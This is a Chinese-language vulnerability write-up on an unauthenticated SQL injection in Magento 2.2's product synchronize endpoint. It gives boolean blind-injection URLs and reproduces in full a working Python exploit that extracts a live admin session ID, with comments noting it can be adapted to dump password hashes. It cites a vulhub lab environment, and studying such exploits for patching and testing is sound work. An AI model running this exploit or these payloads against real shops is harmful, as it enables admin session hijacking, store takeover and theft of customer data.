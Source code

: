 Magento 2.2 SQL注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Magento 2.2

三、复现过程
------------

    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![2.png](resource/Magento2.2SQL注入漏洞/media/rId24.png)![3.png](resource/Magento2.2SQL注入漏洞/media/rId25.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用POC，可以读取管理员的session：

![4.png](resource/Magento2.2SQL注入漏洞/media/rId26.png)

    #!/usr/bin/env python3
    # Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
    # Charles Fol
    # 2019-03-22
    #
    # SOURCE & SINK
    # The sink (from-to SQL condition) has been present from Magento 1.x onwards.
    # The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
    # If your target runs Magento < 2.2.0, you need to find another source.
    #
    # SQL INJECTION
    # The exploit can easily be modified to obtain other stuff from the DB, for
    # instance admin/user password hashes.
    #

    import requests
    import string
    import binascii
    import re
    import random
    import time
    import sys
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

    def run(url):
        sqli = SQLInjection(url)

        try:
            sqli.find_test_method()
            sid = sqli.get_most_recent_session()
        except ExploitError as e:
            print('Error: %s' % e)


    def random_string(n=8):
        return ''.join(random.choice(string.ascii_letters) for _ in range(n))


    class ExploitError(Exception):
        pass


    class Browser:
        """Basic browser functionality along w/ URLs and payloads.
        """
        PROXY = None

        def __init__(self, URL):
            self.URL = URL
            self.s = requests.Session()
            self.s.verify = False
            if self.PROXY:
                self.s.proxies = {
                    'http': self.PROXY,
                    'https': self.PROXY,
                }


    class SQLInjection(Browser):
        """SQL injection stuff.
        """

        def encode(self, string):
            return '0x' + binascii.b2a_hex(string.encode()).decode()

        def find_test_method(self):
            """Tries to inject using an error-based technique, or falls back to timebased.
            """
            for test_method in (self.test_error, self.test_timebased):
                if test_method('123=123') and not test_method('123=124'):
                    self.test = test_method
                    break
            else:
                raise ExploitError('Test SQL injections failed, not vulnerable ?')

        def test_timebased(self, condition):
            """Runs a test. A valid condition results in a sleep of 1 second.
            """
            payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            return r.elapsed.total_seconds() > 1

        def test_error(self, condition):
            """Runs a test. An invalid condition results in an SQL error.
            """
            payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            if r.status_code not in (200, 400):
                raise ExploitError(
                    'SQL injection does not yield a correct HTTP response'
                )
            return r.status_code == 400

        def word(self, name, sql, size=None, charset=None):
            """Dichotomically obtains a value.
            """
            pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
            full = ''

            check = False
            
            if size is None:
                # Yeah whatever
                size_size = self.word(
                    name,
                    'LENGTH(LENGTH(%s))' % sql,
                    size=1,
                    charset=string.digits
                )
                size = self.word(
                    name,
                    'LENGTH(%s)' % sql,
                    size=int(size_size),
                    charset=string.digits
                )
                size = int(size)

            print("%s: %s" % (name, full), end='\r')

            for p in range(size):
                c = charset
                
                while len(c) > 1:
                    middle = len(c) // 2
                    h0, h1 = c[:middle], c[middle:]
                    condition = pattern % (sql, p+1, self.encode(h0))
                    c = h1 if self.test(condition) else h0

                full += c
                print("%s: %s" % (name, full), end='\r')

            print(' ' * len("%s: %s" % (name, full)), end='\r')

            return full

        def get_most_recent_session(self):
            """Grabs the last created session. We don't need special privileges aside from creating a product so any session
            should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
            backend.
            """
            # This is the default admin session timeout
            session_timeout = 900
            query = (
                'SELECT %%s FROM admin_user_session '
                'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
                'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
            ) % session_timeout

            # Check if a session is available

            available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
            
            if not available:
                raise ExploitError('No session is available')
            print('An admin session is available !')

            # Fetch it

            sid = self.word(
                'Session ID',
                query % 'session_id',
                charset=string.ascii_lowercase + string.digits,
                size=26
            )
            print('Session ID: %s' % sid)
            return sid

    run(sys.argv[1])

参考链接
--------

> https://vulhub.org/\#/environments/magento/2.2-sqli/
